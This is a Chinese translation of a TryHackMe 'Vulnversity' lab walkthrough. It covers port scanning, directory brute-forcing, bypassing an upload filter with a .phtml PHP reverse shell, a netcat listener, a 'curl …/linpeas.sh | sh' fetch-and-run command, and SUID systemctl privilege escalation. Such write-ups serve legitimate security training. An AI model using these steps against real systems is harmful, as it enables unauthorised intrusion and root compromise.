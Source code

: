 # TryHackMe。入侵一台大学机器。

> 原文：<https://infosecwriteups.com/tryhackme-hacking-a-vulnversity-machine-a5eff51a6332?source=collection_archive---------2----------------------->

如果你对学习道德黑客/ pentesting 感兴趣，请查看我的 TryHackMe Vulnversity walk through。

![](img/aeab382fb61d611c8c8f084e83a3669f.png)

从尝试 hackme.com 检索

1.  侦察

危害给定机器的第一步是使用 Nmap 进行端口扫描。

![](img/13caa7f6d27ac553b269d921c8fbbdc2.png)

我在这次扫描中使用的开关是:

*   -sV(用于服务版本发现)
*   -oN(用于将结果保存在 Nmap 格式的文件中)

正如我们从结果中看到的，有一个 web 服务器运行在端口#3333 上。让我们打开它，看看它会呈现给我们什么。

![](img/81d0a5377d4ecd630411ad6e8dc16b55.png)

看起来像大学网站的普通主页。继续下一步。

2.目录遍历

我在处理网站渗透测试时使用的一个常见做法是在最开始时运行几次扫描。当发现网络服务器上的目录时，GoBuster 是一种非常方便的扫描工具。

![](img/764d2b80eb5e2dd3c6dbccf8376febf6.png)

从 tryhackme.com 取回

事不宜迟，让我们运行扫描，看看我们会得到什么结果。

![](img/96d3fc1071fe889f101572767bbd92ec.png)

基本的 GoBuster 语法如下:

**gobuster dir-u<URI>-w/path/to/the/word list**

*   *dir* 关键字用于 direcroty 蛮力
*   *-u* 是 URL 规范的一个选项
*   *-w* 指定单词列表

在上面的例子中，我对常用目录使用了 common.txt 单词表。现在，它涉及到目录遍历本身，下面的截图显示 web 服务器实际上是易受攻击的。

![](img/ac07be37a9605007ef6d62b40700e2f5.png)

没有适当清理的上传表单会给服务器带来一些麻烦，因为攻击者可能会上传恶意的可执行文件。

3.危及网络服务器

为了查看服务器可以接受哪些扩展，我们可以尝试手动上传或者使用 BurpSuite 这样的自动化工具。

我们最感兴趣的扩展名是. php，为什么？因为 PHP 是用于构建 web 应用程序逻辑的最常见的后端编程语言。php 有不同的风格，所以我们将尝试其中的五种:PHP、php3、php4、php5 和 phtml。

为了提交指定的扩展，BurpSuite 入侵者的狙击攻击将非常有用。下面的截图描述了我们攻击的结果。

![](img/25a16fbe4c263e695ef1bd560d6bf298.png)

好像是。phtml 扩展已成功上传。

现在，是时候进一步用。phtml 扩展名，这将使我们能够访问易受攻击的服务器。该文件的有效负载将是来自著名的 Pentestmonkey 的 php-reverse-shell。你只需要在谷歌里输入 pentestmonkey php-reverse-shell，然后去他的 GitHub 页面就可以找到。

接下来，我们需要用。phtml 扩展，进行一些更改(IP 地址和端口号(可选))，我们就可以开始了。

![](img/4b5d2760022bef30f991b7778be187d7.png)

在 *$ip* 字段中，指定您自己机器的 ip 地址，因为脚本执行时将连接到该字段中指定的 ip 地址。

提交文件后，我们需要做两件事。首先，为了从我们上传到服务器的脚本中获得想要的结果，我们的机器应该能够监听来自目标的传入连接。第二，必须执行脚本，因此连接被初始化。

对于第一个目标，我们将使用带有以下开关的 NetCat 实用程序: **-l** 用于监听， **-v** 用于详细输出， **-n** 用于禁用 dns 查找，以及 **-p** 用于端口号。

对于第二个目标，我们可以手动检查保存上传的潜在位置，或者我们可以使用 GoBuster。

所有设置完成后，应该是这样的:

![](img/6271b481d01862c0bbf48b56d0f13a3b.png)

文件的执行会给我们一个外壳:

![](img/2412cf776c73c4206901cf8251dddbfb.png)

4.权限提升

我们权限提升的第一步是扫描系统，这将揭示 PE 的潜在区域。为了做到这一点，我们将使用一套工具，称为 PEASS(特权升级真棒脚本套件)。

![](img/ea95b75800df5f829ab5ece85b2ef294.png)

从 github.com 取回

但是，在该套件的脚本中，将只使用一个脚本。它叫做 LinPeas，专门用于 Linux 机器的枚举。

为了执行枚举，我们需要将该脚本放在依赖于外壳的易受攻击的 web 服务器上。以下是可能的选项:

![](img/6cbccc6704ac9e281f2331bbc354ece4.png)

对我有用的是使用 Python HTTP server 的第二种方法。

训练是这样的:

第一步——使用 **git clone** 命令将 PEASS 存储库下载到本地机器。

![](img/1127bbda7b59d3b30d1cf3b7905a9467.png)

第二步—在远程 web 服务器上传输并执行 linpeas.sh 文件。

为此，我们需要在包含 linpeas.sh 文件的目录中启动 Python HTTP server。

![](img/91dd4aef7f188741624d01afd989421b.png)

curl <local_host_ip_addr>/linpeas.sh | sh —这个命令将从本地主机检索文件，并在目标 web 服务器上执行它。</local_host_ip_addr>

结果是彩色字符串的长输出。

![](img/38257834172955985cd1242f2e48872c.png)

黄底红的配色方案表示一个物体 99%可以用于 PE。

LinPeas 说/bin/systemctl 程序设置了 SUID 位，这将允许非根用户以根权限运行它。

GTFOBins 是特权提升的最佳资源之一。当涉及到权限提升时，您肯定可以去那里检查您的发现结果。在我们的示例中，systemctl 实用程序设置了 SUID 位，这使得标准用户能够以提升的(sudo)权限运行该命令。

下面是从 GTFOBins 网站上检索到的一个快速解释，引用了 systemctl 上设置了 SUID 位的 PE。

![](img/c63d853168cde2512121073f5913ac44.png)

在进入漏洞利用的第二部分之前，我们先来获得一个更稳定的外壳。我们可以通过使用 python 来实现。

![](img/a0f5fc1ef378ed317b212c340f94ca78.png)

*-c "*带有 python3 命令的开关允许我们在命令行中直接输入代码。该命令本身使用 Python 的 pty 库来生成 bash shell。

在获得一个稳定的 shell 之后，我们可以回到 GTFOBins systemctl 漏洞并在根文件夹中获得所需的标志。